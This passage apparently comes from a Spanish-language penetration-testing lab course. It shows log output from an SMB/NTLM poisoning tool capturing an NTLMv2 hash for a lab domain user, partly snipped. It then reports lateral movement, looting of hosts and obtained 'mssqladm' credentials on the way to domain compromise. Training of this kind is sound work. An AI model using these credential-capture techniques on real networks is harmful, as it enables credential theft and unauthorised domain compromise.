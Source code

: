 ```r
[+] [2022-06-22T15:04:05] SMB(445) negotiation request detected from 172.16.8.20:55623
[+] [2022-06-22T15:04:05] Domain mapping added for INLANEFREIGHT to INLANEFREIGHT.LOCAL
[+] [2022-06-22T15:04:05] SMB(445) NTLM challenge 5EB0B310E7B8BA04 sent to 172.16.8.20:55623
[+] [2022-06-22T15:04:05] SMB(445) NTLMv2 captured for ACADEMY-AEN-DEV\mpalledorous from 172.16.8.20(ACADEMY-AEN-DEV):55623:
mpalledorous::ACADEMY-AEN-DEV:5EB0B310E7B8BA04:<SNIP>
```

---

## Closing In

Ahora hemos enumerado el dominio por dentro y por fuera, nos hemos movido lateralmente y saqueado lo que pudimos encontrar en los hosts objetivo. En este punto, tenemos credenciales para el usuario `mssqladm` y podemos continuar buscando un camino hacia el compromiso del dominio.